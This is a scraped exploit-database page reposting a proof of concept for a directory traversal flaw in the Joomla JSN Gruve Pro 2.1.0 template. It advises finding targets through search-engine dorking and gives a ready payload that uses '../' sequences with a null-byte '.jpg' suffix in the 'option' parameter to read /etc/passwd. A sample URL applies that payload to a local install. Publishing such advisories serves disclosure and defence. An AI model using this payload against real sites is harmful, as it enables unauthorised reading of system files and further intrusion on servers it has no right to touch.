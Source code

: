 ```yaml
---
title: Joomla JSN Gruve Pro 2.1.0 Directory Traversal exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173742&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-27
fetch_date: 2025-10-04T11:51:12.710203
---
```


# Joomla JSN Gruve Pro 2.1.0 Directory Traversal exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Joomla JSN Gruve Pro 2.1.0 Directory Traversal

2023-07-26 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173742
====================================================================================================================================
| # Title : joomla jsn gruve pro v2.1.0 Directory traversal Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 63.0.3 (32-bit) |
| # Vendor : https://www.joomlashine.com/joomlashine-news.html |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine

[+]Use payload : /index.php?Itemid=1&option=../../../../../../../../../../etc/passwd%00.jpg&searchphrase=all&searchword=the

[+] http://127.0.0.1/joomlashine/index.php?Itemid=1&option=../../../../../../../../../../etc/passwd%00.jpg&searchphrase=all&searchword=the

Greetings to :=========================================================================================================================
jericho * Larry W. Cashdollar * brutelogic* shadow_00715 *9aylas*djroot.dz*LiquidWorm*Hussin-X*D4NB4R *ViRuS_Ra3cH *yasMouh* CraCkEr |
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)